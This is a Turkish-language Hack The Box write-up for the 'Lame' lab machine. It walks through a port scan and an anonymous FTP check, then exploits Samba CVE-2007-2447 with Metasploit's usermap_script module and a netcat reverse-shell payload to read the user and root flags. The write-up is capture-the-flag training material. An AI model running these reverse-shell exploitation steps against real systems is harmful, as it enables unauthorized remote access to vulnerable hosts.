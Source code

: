
# 🎯 Hack The Box - Lame (10.10.10.3) Writeup

**Makine Adı:** Lame  
**IP:** 10.10.10.3  
**Zafiyet:** Samba - CVE-2007-2447  
**Amaç:** Sisteme sızmak ve `user.txt` ile `root.txt` flag'lerini ele geçirmek

---

## 🔍 1. Bilgi Toplama

### Rustscan ile Hızlı Port Taraması

```bash
rustscan -a 10.10.10.3
```

**Açık Portlar:**
- 21/tcp (FTP)
- 22/tcp (SSH)
- 139/tcp (NetBIOS)
- 445/tcp (Samba)

### Versiyon Analizi (Detaylı Bilgi)

Açık portlar üzerinde çalışan servislerin versiyonlarını inceledim. Özellikle Samba'nın eski bir versiyon olduğu dikkatimi çekti.

---

## 📂 2. FTP Servisi (Port 21)

FTP servisine anonymous olarak bağlanmayı denedim:

```bash
ftp 10.10.10.3
Name: anonymous
Password: [boş geçildi]
```

Bağlantı başarılı olsa da içeride herhangi bir işe yarar dosya veya bilgi bulunamadı.

---

## ⚠️ 3. Samba Zafiyeti (CVE-2007-2447)

Versiyon araştırmasında Samba'nın **CVE-2007-2447** zafiyetine açık olduğunu gördüm. Bu, `username map script` üzerinden komut enjeksiyonu yapılmasına olanak tanıyor.

---

## 🧨 4. Exploitation (Metasploit)

### Metasploit ile Sisteme Sızma

```bash
msfconsole
```

```bash
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set RPORT 139
set PAYLOAD cmd/unix/reverse_netcat
set LHOST [Kendi IP Adresim]
set LPORT [Dinlediğim Port]
exploit
```

> ✅ Komut başarılı → Reverse shell elde edildi

---

## 🧍‍♂️ 5. User Flag

```bash
cd /home/makis
cat user.txt
```

**Flag:**

```
HTB{user_flag_buraya}
```

---

## 👑 6. Root Flag

Shell üzerinde yetki kontrolü sonrası root erişimi sağlandı:

```bash
cd /root
cat root.txt
```

**Flag:**

```
HTB{root_flag_buraya}
```

---

## ✅ Sonuç

| Adım | Açıklama |
|------|----------|
| Port Taraması | Rustscan ile hızlı tarama |
| Servis Analizi | Samba zafiyeti tespit edildi (CVE-2007-2447) |
| FTP Erişimi | Anonymous bağlantı başarılı ancak işe yarar veri yok |
| Exploitation | Metasploit ile reverse shell alındı |
| Flagler | `user.txt` ve `root.txt` başarıyla ele geçirildi |

---

**Not:** Bu çözüm yalnızca eğitim ve CTF amaçlıdır. Gerçek sistemlerde izinsiz denemeler yasa dışıdır.
